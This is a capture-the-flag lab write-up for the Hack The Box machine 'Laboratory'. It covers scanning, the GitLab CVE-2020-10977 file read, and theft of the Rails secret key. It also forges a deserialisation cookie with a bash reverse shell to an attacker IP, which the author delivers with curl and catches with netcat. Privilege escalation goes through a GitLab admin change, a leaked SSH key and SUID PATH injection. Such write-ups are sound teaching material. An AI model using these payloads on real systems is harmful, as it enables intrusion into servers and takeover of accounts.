



# Laboratory
## Enumeration
- ```Nmap```
```
└─$ nmap -Pn -sC -sV 10.10.10.216 -T4
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 18:25 BST
Nmap scan report for 10.10.10.216 (10.10.10.216)
Host is up (0.13s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 25ba648f799d5d95972c1bb25e9b550d (RSA)
|_  256 7720ffe946c068921a0b2129d153aa87 (ED25519)
80/tcp  open  http     Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to https://laboratory.htb/
443/tcp open  ssl/http Apache httpd 2.4.41 ((Ubuntu))
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=laboratory.htb
| Subject Alternative Name: DNS:git.laboratory.htb
| Not valid before: 2020-07-05T10:39:28
|_Not valid after:  2024-03-03T10:39:28
|_http-title: The Laboratory
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
Service Info: Host: laboratory.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.24 seconds

```
- `gobuster`
```
└─$ gobuster dir -u https://laboratory.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,txt --no-error -k 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://laboratory.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/07/06 18:37:13 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 319] [--> https://laboratory.htb/images/]
/assets               (Status: 301) [Size: 319] [--> https://laboratory.htb/assets/]
/CREDITS.txt          (Status: 200) [Size: 442]
```
- `wfuzz`
  - `ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u 'https://laboratory.htb' -H 'Host: FUZZ.laboratory.htb' -fs 7254`
  - `wfuzz -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u https://laboratory.htb -H "Host: FUZZ.laboratory.htb" --hh 7254`
```
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u 'https://laboratory.htb' -H 'Host: FUZZ.laboratory.htb' -fc 200 -mc all

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://laboratory.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.laboratory.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response status: 200
________________________________________________

[Status: 502, Size: 2940, Words: 460, Lines: 94, Duration: 244ms]
    * FUZZ: git

``` 
## Foothold
- `git.laboratory.htb`
  - Let's register


- We have a possible user `dexter`


- If we check the `searchsploit`, we have a possible hit
  - We have a version: `12.8.1`


- We have a possible `CVE-2020-10977`
  - [POC](https://github.com/thewhiteh4t/cve-2020-10977/tree/main)
  - The `poc` works


- According to this [post], it can also be turned into `RCE`
  - We need to get `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml`
  - Using same `poc` let's grab that file
  - `secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3`



- We need to generate a cookie with our payload that we will send to the target 
  - Read the followitng [post](https://robertheaton.com/2013/07/22/how-to-hack-a-rails-app-using-its-secret-token/)
  - So we spawn our own `gitlab` instance
    - `sudo docker run gitlab/gitlab-ce:12.8.1-ce.0`
  - Check the container and open its' shell

```
└─$ sudo docker ps                   
[sudo] password for kali: 
CONTAINER ID   IMAGE                          COMMAND             CREATED              STATUS                                 PORTS                     NAMES
f875151cb6b1   gitlab/gitlab-ce:12.8.1-ce.0   "/assets/wrapper"   About a minute ago   Up About a minute (health: starting)   22/tcp, 80/tcp, 443/tcp   trusting_black
```
- Update 'secret_key_base'
```
root@f875151cb6b1:/# nano /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml
root@f875151cb6b1:/# gitlab-ctl restart
ok: run: alertmanager: (pid 8278) 0s
ok: run: gitaly: (pid 8291) 0s
ok: run: gitlab-exporter: (pid 8306) 0s
ok: run: gitlab-workhorse: (pid 8324) 1s
ok: run: grafana: (pid 8334) 0s
ok: run: logrotate: (pid 8346) 0s
ok: run: nginx: (pid 8429) 1s
ok: run: postgres-exporter: (pid 8435) 0s
ok: run: postgresql: (pid 8445) 1s
ok: run: prometheus: (pid 8454) 0s
ok: run: redis: (pid 8465) 1s
ok: run: redis-exporter: (pid 8470) 0s
ok: run: sidekiq: (pid 8478) 0s
ok: run: sshd: (pid 8484) 0s
ok: run: unicorn: (pid 8491) 0s
```
- Check the key
```
root@f875151cb6b1:/# gitlab-rails console
--------------------------------------------------------------------------------
 GitLab:       12.8.1 (d18b43a5f5a) FOSS
 GitLab Shell: 11.0.0
 PostgreSQL:   10.12
--------------------------------------------------------------------------------
Loading production environment (Rails 6.0.2)
irb(main):001:0> Rails.application.env_config["action_dispatch.secret_key_base"]
=> "3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8e\nbb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3"
irb(main):002:0> 
```
- Let's generate a payload based on the following [report](https://hackerone.com/reports/827052)
```
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar
erb = ERB.new("<%= `bash -c 'bash -i >& /dev/tcp/10.10.16.2/6666 0>&1'` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```
```
irb(main):001:0> Rails.application.env_config["action_dispatch.secret_key_base"]
=> "3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8e\nbb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3"
irb(main):002:0> request = ActionDispatch::Request.new(Rails.application.env_config)
=> #<ActionDispatch::Request:0x00007f552d878348 @env={"action_dispatch.parameter_filter"=>[/token$/, ...
irb(main):003:0> request.env["action_dispatch.cookies_serializer"] = :marshal
=> :marshal
irb(main):004:0>  cookies = request.cookie_jar
=> #<ActionDispatch::Cookies::CookieJar:0x00007f5527d21da0 @set_cookies={}, @delete_cookies={}, ...
irb(main):005:0> erb = ERB.new("<%= `bash -c 'bash -i >& /dev/tcp/10.10.16.2/6666 0>&1'` %>")
=> #<ERB:0x00007f5527d9ac78 @safe_level=nil, @src="#coding:UTF-8\n_erbout = +''; _erbout.<<(( `bash -c 'bash -i >& /dev/tcp/10.10.16.2/6666 0>&1'` ).to_s); _erbout", @encoding=#<Encoding:UTF-8>, @frozen_string=nil, @filename=nil, @lineno=0>
irb(main):020:0> depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
bash: connect: Connection refused
bash: /dev/tcp/10.10.16.2/6666: Connection refused
=> ""
irb(main):021:0> cookies.signed[:cookie] = depr
DEPRECATION WARNING: @result is deprecated! Call result.is_a? instead of @result.is_a?. Args: [Hash] (called from irb_binding at (irb):21)
bash: connect: Connection refused
bash: /dev/tcp/10.10.16.2/6666: Connection refused
bash: connect: Connection refused
bash: /dev/tcp/10.10.16.2/6666: Connection refused
=> ""
irb(main):022:0> puts cookies[:cookie]
BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kidCNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjIvNjY2NiAwPiYxJ2AgKS50b19zKTsgX2VyYm91dAY6BkVGOg5AZW5jb2RpbmdJdToNRW5jb2RpbmcKVVRGLTgGOwpGOhNAZnJvemVuX3N0cmluZzA6DkBmaWxlbmFtZTA6DEBsaW5lbm9pADoMQG1ldGhvZDoLcmVzdWx0OglAdmFySSIMQHJlc3VsdAY7ClQ6EEBkZXByZWNhdG9ySXU6H0FjdGl2ZVN1cHBvcnQ6OkRlcHJlY2F0aW9uAAY7ClQ=--340332f213dbdec0821e3f4a8d7e4f3279accbb9
=> nil
```
- Send a request according to the post
```
└─$ curl -vvv -k 'https://git.laboratory.htb/users/sign_in' -b "experimentation_subject_id=BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kidCNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjIvNjY2NiAwPiYxJ2AgKS50b19zKTsgX2VyYm91dAY6BkVGOg5AZW5jb2RpbmdJdToNRW5jb2RpbmcKVVRGLTgGOwpGOhNAZnJvemVuX3N0cmluZzA6DkBmaWxlbmFtZTA6DEBsaW5lbm9pADoMQG1ldGhvZDoLcmVzdWx0OglAdmFySSIMQHJlc3VsdAY7ClQ6EEBkZXByZWNhdG9ySXU6H0FjdGl2ZVN1cHBvcnQ6OkRlcHJlY2F0aW9uAAY7ClQ=--340332f213dbdec0821e3f4a8d7e4f3279accbb9"
*   Trying 10.10.10.216:443...
* Connected to git.laboratory.htb (10.10.10.216) port 443 (#0)
* ALPN: offers h2,http/1.1
* TLSv1.3 (OUT), TLS handshake, Client hello (1):
* TLSv1.3 (IN), TLS handshake, Server hello (2):
* TLSv1.3 (IN), TLS handshake, Encrypted Extensions (8):
* TLSv1.3 (IN), TLS handshake, Certificate (11):
* TLSv1.3 (IN), TLS handshake, CERT verify (15):
* TLSv1.3 (IN), TLS handshake, Finished (20):
* TLSv1.3 (OUT), TLS change cipher, Change cipher spec (1):
* TLSv1.3 (OUT), TLS handshake, Finished (20):
* SSL connection using TLSv1.3 / TLS_AES_256_GCM_SHA384
* ALPN: server accepted http/1.1
* Server certificate:
*  subject: CN=laboratory.htb
*  start date: Jul  5 10:39:28 2020 GMT
*  expire date: Mar  3 10:39:28 2024 GMT
*  issuer: CN=laboratory.htb
*  SSL certificate verify result: self-signed certificate (18), continuing anyway.
* using HTTP/1.1
> GET /users/sign_in HTTP/1.1
> Host: git.laboratory.htb
> User-Agent: curl/7.88.1
> Accept: */*
> Cookie: experimentation_subject_id=BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kidCNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjIvNjY2NiAwPiYxJ2AgKS50b19zKTsgX2VyYm91dAY6BkVGOg5AZW5jb2RpbmdJdToNRW5jb2RpbmcKVVRGLTgGOwpGOhNAZnJvemVuX3N0cmluZzA6DkBmaWxlbmFtZTA6DEBsaW5lbm9pADoMQG1ldGhvZDoLcmVzdWx0OglAdmFySSIMQHJlc3VsdAY7ClQ6EEBkZXByZWNhdG9ySXU6H0FjdGl2ZVN1cHBvcnQ6OkRlcHJlY2F0aW9uAAY7ClQ=--340332f213dbdec0821e3f4a8d7e4f3279accbb9
> 
* TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
* TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
* old SSL session ID is stale, removing
```
- Get your foothold
```
└─$ nc -lvnp 6666                                
listening on [any] 6666 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.216] 43024
bash: cannot set terminal process group (402): Inappropriate ioctl for device
bash: no job control in this shell
git@git:~/gitlab-rails/working$ 
```

## User
- We are inside the container based on our enumeration
  - `.dockerenv` and empty `/home`


- Running [deepce](https://github.com/stealthcopter/deepce) had no success
  - So let's open `gitlab-rails console` and make our user an admin to see if there are other projects
  - [Cheetshee](https://docs.gitlab.com/ee/administration/troubleshooting/gitlab_rails_cheat_sheet.html)

```
git@git:~/gitlab-rails/working$ gitlab-rails console
--------------------------------------------------------------------------------
 GitLab:       12.8.1 (d18b43a5f5a) FOSS
 GitLab Shell: 11.0.0
 PostgreSQL:   10.12
--------------------------------------------------------------------------------
Loading production environment (Rails 6.0.2)
irb(main):001:0> user = User.find_by(username: "test")
user = User.find_by(username: "test")
=> #<User id:5 @test>
irb(main):002:0> user.admin = TRUE
user.admin = TRUE
(irb):2: warning: constant ::TRUE is deprecated
=> true
irb(main):003:0> user.save!
user.save!
=> true
irb(main):004:0> 
```

- And we find another project with `id_rsa` in it




- Let's connect via `ssh`



## Root
- Now let's enumerate the box
  - If we run `linpeas` or look for `SUID` files we see an interesting binary

```
7838     20 -rwsr-xr-x   1 root     dexter             16720 Aug 28  2020 /usr/local/bin/docker-security
```

- Let's run `ltrace`
```
dexter@laboratory:~$ ltrace /usr/local/bin/docker-security
setuid(0)                                                                                                                                         = -1
setgid(0)                                                                                                                                         = -1
system("chmod 700 /usr/bin/docker"chmod: changing permissions of '/usr/bin/docker': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                            = 256
system("chmod 660 /var/run/docker.sock"chmod: changing permissions of '/var/run/docker.sock': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                            = 256
+++ exited (status 0) +++
```
- So `suid` binaries doesn't have concept of the secure path
  - So we can perform `path injection`
  - Let's create a script that run `bash`
  - Make it executable
  - Change `PATH` variable by adding current directory (which stores our `chmod`)
  - Run `suid` binary
  - And get our `root` shell


